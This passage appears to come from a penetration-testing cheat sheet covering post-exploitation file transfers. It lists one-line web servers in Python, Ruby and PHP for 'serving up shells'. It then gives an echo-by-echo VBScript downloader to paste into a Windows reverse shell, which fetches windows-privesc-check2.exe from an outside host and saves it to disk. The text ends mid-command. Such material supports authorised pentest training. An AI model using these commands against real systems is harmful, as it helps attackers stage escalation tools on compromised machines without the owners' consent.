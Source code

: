 ## File Transfers

- Post exploitation refers to the actions performed by an attacker,
    once some level of control has been gained on his target.

- Simple Local Web Servers

  - Run a basic http server, great for serving up shells etc  
        python -m SimpleHTTPServer 80

  - Run a basic Python3 http server, great for serving up shells
        etc  
        python3 -m http.server

  - Run a ruby webrick basic http server  
        ruby -rwebrick -e "WEBrick::HTTPServer.new  
        (:Port => 80, :DocumentRoot => Dir.pwd).start"

  - Run a basic PHP http server  
        php -S $ip:80

- Creating a wget VB Script on Windows:  
    [*https://github.com/erik1o6/oscp/blob/master/wget-vbs-win.txt*](https://github.com/erik1o6/oscp/blob/master/wget-vbs-win.txt)

- Windows file transfer script that can be pasted to the command line.  File transfers to a Windows machine can be tricky without a Meterpreter shell.  The following script can be copied and pasted into a basic windows reverse and used to transfer files from a web server (the timeout 1 commands are required after each new line):

         echo Set args = Wscript.Arguments  >> webdl.vbs
         timeout 1
         echo Url = "http://1.1.1.1/windows-privesc-check2.exe"  >> webdl.vbs
         timeout 1
         echo dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")  >> webdl.vbs
         timeout 1
         echo dim bStrm: Set bStrm = createobject("Adodb.Stream")  >> webdl.vbs
         timeout 1
         echo xHttp.Open "GET", Url, False  >> webdl.vbs
         timeout 1
         echo xHttp.Send  >> webdl.vbs
         timeout 1
         echo with bStrm      >> webdl.vbs
         timeout 1
         echo  .type = 1 '      >> webdl.vbs
         timeout 1
         echo  .open      >> webdl.vbs
         timeout 1
         echo  .write xHttp.responseBody      >> webdl.vbs
         timeout 1
         echo  .savetofile "C:\temp\windows-privesc-check2.exe", 2 '  >> webdl.vbs
         timeout 1
         echo end with >> webdl.vbs
         timeout 1
         echo
